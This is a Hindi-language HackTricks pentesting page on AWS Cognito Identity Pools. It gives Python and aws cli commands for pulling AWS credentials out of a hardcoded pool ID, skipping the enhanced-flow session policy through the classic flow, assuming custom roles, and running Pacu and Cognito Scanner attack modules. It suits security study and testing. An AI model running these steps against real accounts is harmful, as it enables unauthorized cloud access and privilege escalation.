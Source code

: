 # Cognito पहचान पूल

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से नायक तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** 🐦 पर **मुझे फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## मूल जानकारी

पहचान पूल आपके उपयोगकर्ताओं को **अस्थायी प्रमाणपत्र प्राप्त करने** में महत्वपूर्ण भूमिका निभाते हैं। ये प्रमाणपत्र विभिन्न AWS सेवाओं तक पहुँचने के लिए आवश्यक हैं, जिनमें Amazon S3 और DynamoDB शामिल हैं। पहचान पूल की एक विशेषता यह है कि वे अनाम अतिथि उपयोगकर्ताओं के साथ-साथ उपयोगकर्ता प्रमाणीकरण के लिए विभिन्न पहचान प्रदाताओं का समर्थन करते हैं। समर्थित पहचान प्रदाताओं में शामिल हैं:

- Amazon Cognito उपयोगकर्ता पूल
- Facebook, Google, Login with Amazon, और Sign in with Apple जैसे सोशल साइन-इन विकल्प
- OpenID Connect (OIDC) के अनुरूप प्रदाता
- SAML (Security Assertion Markup Language) पहचान प्रदाता
- डेवलपर प्रमाणित पहचान
```python
# Sample code to demonstrate how to integrate an identity provider with an identity pool can be structured as follows:
import boto3

# Initialize the Amazon Cognito Identity client
client = boto3.client('cognito-identity')

# Assume you have already created an identity pool and obtained the IdentityPoolId
identity_pool_id = 'your-identity-pool-id'

# Add an identity provider to the identity pool
response = client.set_identity_pool_roles(
IdentityPoolId=identity_pool_id,
Roles={
'authenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/AuthenticatedRole',
'unauthenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/UnauthenticatedRole',
}
)

# Print the response from AWS
print(response)
```
### Cognito Sync

Identity Pool sessions बनाने के लिए, आपको पहले **Identity ID जनरेट करनी होगी**। यह Identity ID उस यूजर के सेशन की **पहचान होती है**। इन पहचानों में 20 datasets तक हो सकते हैं जो 1MB तक की key-value जोड़ियों को स्टोर कर सकते हैं।

यह एक यूजर की जानकारी रखने के लिए **उपयोगी है** (जो हमेशा एक ही Identity ID का उपयोग करेगा)।

इसके अलावा, सेवा **cognito-sync** वह सेवा है जो इस जानकारी को **प्रबंधित करने और सिंक्रोनाइज़ करने की अनुमति देती है** (datasets में, स्ट्रीम्स और SNSs msgs में जानकारी भेजना...).

### पेंटेस्टिंग के लिए उपकरण

* [Pacu](https://github.com/RhinoSecurityLabs/pacu), AWS शोषण फ्रेमवर्क, अब "cognito\_\_enum" और "cognito\_\_attack" मॉड्यूल्स शामिल करता है जो एक अकाउंट में सभी Cognito संपत्तियों का स्वचालित रूप से परिगणन करते हैं और कमजोर कॉन्फ़िगरेशन, एक्सेस कंट्रोल के लिए उपयोग किए जाने वाले यूजर विशेषताओं आदि को चिह्नित करते हैं, और यूजर निर्माण (MFA समर्थन सहित) और आधारित प्रिविलेज एस्केलेशन को स्वचालित करते हैं संशोधन योग्य कस्टम विशेषताओं पर, उपयोगी identity pool credentials, id tokens में assumable roles, आदि पर।

मॉड्यूल्स के कार्यों का विवरण के लिए देखें [ब्लॉग पोस्ट](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2) का भाग 2। स्थापना निर्देशों के लिए मुख्य [Pacu](https://github.com/RhinoSecurityLabs/pacu) पेज देखें।

#### उपयोग

एक दिए गए identity pool और user pool client के खिलाफ यूजर निर्माण और सभी privesc वेक्टर्स का प्रयास करने के लिए cognito\_\_attack का नमूना उपयोग:
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
नमूना cognito\_\_enum का उपयोग वर्तमान AWS खाते में दिखाई देने वाले सभी उपयोगकर्ता पूल, उपयोगकर्ता पूल क्लाइंट, पहचान पूल, उपयोगकर्ता, आदि को एकत्रित करने के लिए:
```bash
Pacu (new:test) > run cognito__enum
```
* [Cognito Scanner](https://github.com/padok-team/cognito-scanner) एक CLI टूल है python में जो Cognito पर विभिन्न हमलों को लागू करता है जिसमें अनचाहे खाता निर्माण और identity pool वृद्धि शामिल है।

#### स्थापना
```bash
$ pip install cognito-scanner
```
#### प्रयोग
```bash
$ cognito-scanner --help
```
अधिक जानकारी के लिए https://github.com/padok-team/cognito-scanner देखें

## IAM भूमिकाओं तक पहुँच

### अप्रमाणित

एक हमलावर को Cognito ऐप में अप्रमाणित उपयोगकर्ता के रूप में **AWS प्रमाण-पत्र प्राप्त करने** के लिए केवल **Identity Pool ID** के बारे में जानना आवश्यक है, और यह **ID वेब/मोबाइल एप्लिकेशन** में हार्डकोडेड होनी चाहिए ताकि वह इसका उपयोग कर सके। एक ID इस तरह दिखती है: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (इसे ब्रूटफोर्स नहीं किया जा सकता)।

{% hint style="success" %}
**IAM Cognito अप्रमाणित भूमिका जो बनाई गई है उसे** डिफ़ॉल्ट रूप से `Cognito_<Identity Pool name>Unauth_Role` कहा जाता है
{% endhint %}

यदि आपको एक हार्डकोडेड Identity Pools ID मिलती है और यह अप्रमाणित उपयोगकर्ताओं को अनुमति देती है, तो आप AWS प्रमाण-पत्र इस प्रकार प्राप्त कर सकते हैं:
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
या आप निम्नलिखित **aws cli commands** का उपयोग कर सकते हैं:
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
ध्यान दें कि डिफ़ॉल्ट रूप से एक अप्रमाणित Cognito **उपयोगकर्ता के पास कोई भी अनुमति नहीं हो सकती है, भले ही उसे नीति के माध्यम से असाइन किया गया हो**। निम्नलिखित अनुभाग देखें।
{% endhint %}

### संवर्धित बनाम मूल प्रमाणीकरण प्रवाह

पिछला अनुभाग **डिफ़ॉल्ट संवर्धित प्रमाणीकरण प्रवाह** का पालन करता है। यह प्रवाह IAM रोल सत्र को एक **प्रतिबंधात्मक** [**सत्र नीति**](../../aws-basic-information/#session-policies) सेट करता है। यह नीति केवल सत्र को [**इस सूची से सेवाओं का उपयोग करने की अनुमति देगी**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) (भले ही रोल के पास अन्य सेवाओं तक पहुँच हो)।

हालांकि, इसे बायपास करने का एक तरीका है, अगर **Identity pool में "मूल (क्लासिक) प्रवाह" सक्षम है**, तो उपयोगकर्ता उस प्रवाह का उपयोग करके एक सत्र प्राप्त कर सकता है जिसमें वह प्रतिबंधात्मक सत्र नीति **नहीं होगी**।

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
यदि आपको यह **error** प्राप्त होती है, तो इसका मतलब है कि **basic flow सक्षम नहीं है (default)**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

IAM credentials प्राप्त करने पर आपको [आपके पास कौन सी पहुँच है](../../#whoami) यह जांचना चाहिए और [अधिकार बढ़ाने की कोशिश करनी चाहिए](../../aws-privilege-escalation/).

### Authenticated

{% hint style="info" %}
याद रखें कि **authenticated users** को शायद **अलग अनुमतियाँ** दी जाएंगी, इसलिए यदि आप **app के अंदर sign up** कर सकते हैं, तो ऐसा करने की कोशिश करें और नए credentials प्राप्त करें।
{% endhint %}

**Authenticated users** के लिए **roles** भी उपलब्ध हो सकते हैं जो Identity Pool तक पहुँच रहे हैं।

इसके लिए आपको **identity provider** तक पहुँच की आवश्यकता हो सकती है। यदि वह **Cognito User Pool** है, तो शायद आप default behaviour का दुरुपयोग करके **खुद एक नया user बना सकते हैं**।

{% hint style="success" %}
**IAM Cognito authenticated role जो via बनाई गई है** उसे default रूप से `Cognito_<Identity Pool name>Auth_Role` कहा जाता है।
{% endhint %}

वैसे भी, **निम्नलिखित उदाहरण** यह मानता है कि आप पहले ही **Cognito User Pool** में लॉग इन कर चुके हैं जिसका उपयोग Identity Pool तक पहुँचने के लिए किया जाता है (याद रखें कि अन्य प्रकार के identity providers भी कॉन्फ़िगर किए जा सकते हैं)।

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# Get the identity_id from the previous commnad response
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# In the IdToken you can find roles a user has access because of User Pool Groups
# User the --custom-role-arn to get credentials to a specific role
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
यह संभव है कि **अलग-अलग IAM roles को identity provider के आधार पर configure किया जा सकता है** जिसमें user लॉग इन कर रहा है या यहाँ तक कि केवल **user के आधार पर** (claims का उपयोग करके)। इसलिए, यदि आपके पास एक ही या अलग-अलग providers के माध्यम से विभिन्न users तक पहुँच है, तो यह **लॉग इन करने और उन सभी के IAM roles तक पहुँचने के लिए लायक हो सकता है**।
{% endhint %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) देखें!
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें।
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा [**NFTs**](https://opensea.io/collection/the-peass-family) का विशेष संग्रह।
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) पर **फॉलो** करें।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी hacking tricks साझा करें।

</details>
